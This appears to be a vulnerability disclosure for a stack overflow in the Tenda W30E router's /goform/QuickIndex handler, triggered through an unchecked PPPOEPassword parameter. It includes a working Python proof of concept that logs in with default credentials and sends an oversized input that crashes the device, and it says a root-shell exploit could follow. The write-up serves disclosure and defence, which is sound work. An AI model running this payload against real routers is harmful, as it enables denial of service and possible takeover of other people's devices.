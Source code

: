 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/QuickIndex/img/2.png)

In /goform/QuickIndex, PPPOEPassword will be passed to s by the function sub_3AD5C. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'PPPOEPassword=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/QuickIndex/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
